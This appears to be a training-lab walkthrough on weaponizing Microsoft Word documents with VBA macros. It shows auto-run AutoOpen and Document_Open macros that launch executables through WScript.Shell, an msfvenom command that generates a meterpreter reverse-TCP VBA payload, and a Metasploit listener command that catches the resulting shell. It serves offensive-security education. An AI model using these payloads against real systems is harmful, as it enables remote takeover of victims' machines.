






Visual Basic for Application (VBA)
Visual Basic for Application (VBA)
VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.
Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface (API) and other low-level functionality. For more information about VBA, visit here.
In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.
Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.
Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.

In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:
$$$$$$$$$$$$$$$$$$$$$$$$$
Sub THM()
MsgBox ("Welcome to Weaponization Room!")
End Sub
$$$$$$$$$$$$$$$$$$$$$$$$$
Finally, run the macro by F5 or Run → Run Sub/UserForm. [Testing]
Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.
$$$$$$$$$$$$$$$$$$$$$$$$$
Sub Document_Open()
THM
End Sub
Sub AutoOpen()
THM
End Sub
Sub THM()
MsgBox ("Welcome to Weaponization Room!")
End Sub
$$$$$$$$$$$$$$$$$$$$$$$$$
It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.
Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.

Once we allowed the Enable Content, our macro gets executed as shown,

Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,
$$$$$$$$$$$$$$$$$$$$$$$$$
Sub PoC()
Dim payload As String
payload = "calc.exe"
CreateObject("Wscript.Shell").Run payload,0
End Sub
$$$$$$$$$$$$$$$$$$$$$$$$$
To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the AutoOpen() and Document_open() functions too
Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.

Gaining Reverse Shell Using VBA Macros
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba

Import to note that one modification needs to be done to make this work. The DEFAULT output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.
Now copy the output and save it into the macro editor of the MS word document, as we showed previously.
Note: Replace the entire code in a newly created macro else it might throw errors
From the attacking machine, run the Metasploit framework and set the listener.
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.50.159.15; set LPORT 443;exploit"
Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.
